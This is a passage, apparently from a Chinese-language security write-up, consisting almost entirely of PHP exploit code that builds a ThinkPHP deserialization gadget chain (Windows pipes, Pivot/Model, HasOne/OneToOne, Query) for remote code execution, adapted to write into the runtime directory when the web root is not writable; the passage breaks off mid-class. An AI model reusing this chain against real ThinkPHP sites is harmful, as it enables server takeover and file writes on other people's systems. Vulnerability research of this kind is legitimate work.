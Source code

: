 根据`https://ma4ter.cn/2527.html`文章中的rce，考虑到web根目录不可写，换runtime写：

```
&lt;?php
namespace think\process\pipes `{`
    class Windows `{`
        private $files = [];

        public function __construct($files)
        `{`
            $this-&gt;files = [$files]; //$file =&gt; /think/Model的子类new Pivot(); Model是抽象类
        `}`
    `}`
`}`

namespace think `{`
    abstract class Model`{`
        protected $append = [];
        protected $error = null;
        public $parent;

        function __construct($output, $modelRelation)
        `{`
            $this-&gt;parent = $output;  //$this-&gt;parent=&gt; think\console\Output;
            $this-&gt;append = array("xxx"=&gt;"getError");     //调用getError 返回this-&gt;error
            $this-&gt;error = $modelRelation;               // $this-&gt;error 要为 relation类的子类，并且也是OnetoOne类的子类==&gt;&gt;HasOne
        `}`
    `}`
`}`

namespace think\model`{`
    use think\Model;
    class Pivot extends Model`{`
        function __construct($output, $modelRelation)
        `{`
            parent::__construct($output, $modelRelation);
        `}`
    `}`
`}`

namespace think\model\relation`{`
    class HasOne extends OneToOne `{`

    `}`
`}`
namespace think\model\relation `{`
    abstract class OneToOne
    `{`
        protected $selfRelation;
        protected $bindAttr = [];
        protected $query;
        function __construct($query)
        `{`
            $this-&gt;selfRelation = 0;
            $this-&gt;query = $query;    //$query指向Query
            $this-&gt;bindAttr = ['xxx'];// $value值，作为call函数引用的第二变量
        `}`
    `}`
`}`

namespace think\db `{`
    class Query `{`
        protected $model;
```